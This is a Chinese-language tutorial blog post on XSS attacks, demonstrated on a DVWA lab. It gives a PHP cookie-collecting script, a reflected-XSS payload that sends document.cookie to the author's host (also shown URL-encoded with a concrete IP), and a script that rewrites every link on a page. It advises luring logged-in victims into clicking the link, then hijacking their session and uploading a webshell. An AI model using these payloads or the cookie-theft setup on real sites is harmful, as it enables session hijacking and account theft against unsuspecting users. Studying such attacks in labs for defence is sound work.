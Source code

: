 ```yaml
---
title: XSS 漏洞的攻击手法
comments: true
toc: true
tags:
    - XSS
description: 介绍 XSS 可以实现的攻击其中包括：Cookie 劫持与篡改网页链接等
categies:
    - websec
    - xss
date: 2019-08-15 17:45:11
---
```


# Cookie 劫持

## 原理

首先，我们有个服务器，当然，这里我在自己电脑上用 php study 搭建一个服务器

其次，我们需要有个脚本来获取用户的 cookie，写入到我们电脑上。

下面我们写一个脚本：cookie.php

```php
<?php
if(isset($_GET['cookie']))
{
	$cookie=$_GET['cookie'];
	file_put_contents('cookie.txt',$cookie);
}
?>
```

将其放到 PHP Study 的 WWW 目录下的 xss_test 目录下。

然后，我们通过浏览器对象中的 Location 对象来改变当前的 URL，将当前 cookie 提交到我们指定的 URL 的脚本文件，这样我们可以在脚本文件中将 cookie 保留下来。

注：

**Document.location** 是一个只读属性，返回一个 [`Location`](https://developer.mozilla.org/zh-CN/docs/Web/API/Location) 对象，包含有文档的 URL 相关的信息，并提供了改变该 URL 和加载其他 URL 的方法。

## 测试

下面我访问虚拟机的 dvwa 的反射 XSS，并使用 hackbar 将构造的下列 paylaod 进行 URL 编码（注：GET 方式的 payload 不能直接写到地址栏，要经过 URL 编码）

```php
<script>document.location='http://你的主机ip/xss_test/cookie.php?cookie='+document.cookie</script>
```

其中，“你的主机 ip” 写你主机的 ip，这样

```php
http://192.168.107.156/dvwa-master/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D'http%3A%2F%2F113.54.198.24%2Fxss_test%2Fcookie.php%3Fcookie%3D'%2Bdocument.cookie%3C%2Fscript%3E
```

然后，我们就可以发给别人，先让他们登录对应网站，然后诱使其点击该 URL，这样我们就可以获取其 cookie 了。

注意：高版本的 phpstudy（没准是 php 版本 或 apache 版本高？）默认增加 usertoken，测试会不正常。

这样我们使用通过修改浏览器 cookie 或使用 burp 截获并修改 cookie 来实现会话劫持。

劫持会话后的操作

1. 查看信息，修改配置
2. 寻找其他漏洞点，比如：寻找文件上传漏洞，上传一句话。

# 篡改网页链接

## 原理

window.onload 当窗口加载时，执行匿名函数

使用 for 循环遍历所有获得的链接的 a 标签

```php+HTML
<script>
window.onload = function()
{
	var links=document.getElementsByTagName("a");
	for(var i =0; i < links.length;i++)
		links.href="www.baidu.com";
}
</script>
```

## 测试

将篡改代码注入到对应的 XSS 位置，以 DVWA 反射型 XSS 为例，我们在输入框中输入上面的代码，然后使用检查元素方式，便可以查看修改后的链接。

```php
http://192.168.107.156/dvwa-master/vulnerabilities/xss_r/?name=%3Cscript%3E%0Awindow.onload%20%3D%20function()%0A%7B%0A%09var%20links%3Ddocument.getElementsByTagName(%22a%22)%3B%0A%09for(var%20i%20%3D%200%3B%20i%20%3C%20links.length%3Bi%2B%2B)%0A%09%09links%5Bi%5D.href%3D%22https%3A%2F%2Fwww.baidu.com%22%3B%0A%7D%0A%3C%2Fscript%3E
```

注入后，网页链接变都会改变为你重定向的网页连接，这样就达到了篡改网页链接的目的，当然，反射型只是一时的，存储型 XSS 对篡改网页链接持久有效。

未完待续...
